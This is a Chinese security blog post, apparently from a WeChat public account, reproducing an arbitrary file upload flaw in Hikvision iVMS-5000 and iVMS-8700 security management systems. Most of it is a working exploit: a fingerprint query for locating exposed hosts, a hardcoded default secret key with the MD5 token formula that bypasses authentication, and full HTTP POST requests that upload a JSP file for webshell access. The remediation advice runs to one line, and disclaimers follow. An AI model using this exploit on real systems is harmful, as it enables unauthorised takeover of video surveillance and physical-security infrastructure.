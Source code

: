 #  海康威视iVMS综合安防系统任意文件上传漏洞

巢安实验室  [ 巢安实验室 ](javascript:void\(0\);)

**巢安实验室** ![]()

微信号 safe-labs

功能介绍 为荣誉而战，为的是那份自己不屈服于任何人，踢踏是脚下的尊严。

____

___发表于_

收录于合集 #漏洞复现 83个

**漏洞简介**

海康威视iVMS系统存在在野0day漏洞，攻击者通过获取密钥任意构造token，请求/resourceOperations/upload接口任意上传文件，导致获取服务器webshell权限，同时可远程进行恶意代码执行。

 **影响版本**

海康威视综合安防系统iVMS-5000

海康威视综合安防系统 iVMS-8700

 **鹰图指纹**  

  * 

    
    
     web.body="/views/home/file/installPackage.rar"

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180936.png)

 **漏洞复现  
**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180937.png)
burp抓包，尝试访问接口

POC：

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /eps/api/resourceOperations/upload HTTP/1.1Host: ****User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateReferer: *****Connection: closeCookie: JSESSIONID=02768F721F81F74932E9782F16249669Upgrade-Insecure-Requests: 1  
    service=http%3A%2xxxxxxxhome%2Findex.action

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180938.png)

构造token绕过认证  （内部机制：如果token值与请求url+secretkey的md5值相同就可以绕过认证）  
默认值：secretKeyIbuilding  
token值需要进行MD5加密（32位大写）  
组合：token=MD5(url+"secretKeyIbuilding")  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180939.png)

成功绕过

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180940.png)

然后构造文件上传payload:

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /eps/api/resourceOperations/upload?token=构造的token值 HTTP/1.1Host: ****User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateReferer: *****Connection: closeCookie: JSESSIONID=02768F721F81F74932E9782F16249669Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryGEJwiloiPoUpgrade-Insecure-Requests: 1Content-Length: 177  
    ------WebKitFormBoundaryGEJwiloiPoContent-Disposition:form-data;name=\"fileUploader\";filename=\"1.jsp\"Content-Type: image/jpeg  
    test------WebKitFormBoundaryGEJwiloiPo  
    

访问http://URL/esp/upload/返回得到的resourceUuid的值.jsp，这里不再赘述

 **修复建议**

关闭互联网暴露面访问的权限，文件上传模块做好权限强认证  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180941.png)  

 **本文版权归作者和微信公众号平台共有，重在学习交流，不以任何盈利为目的，欢迎转载。**

 **  
**

 **由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。 **公众号**
内容中部分攻防技巧等只允许在目标授权的情况下进行使用，大部分文章来自各大安全社区，个人博客，如有侵权请立即联系公众号进行删除。若不同意以上警告信息请立即退出浏览！！！**

 **  
**

 **敲敲小黑板：《刑法》第二百八十五条
【非法侵入计算机信息系统罪；非法获取计算机信息系统数据、非法控制计算机信息系统罪】违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。**

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看


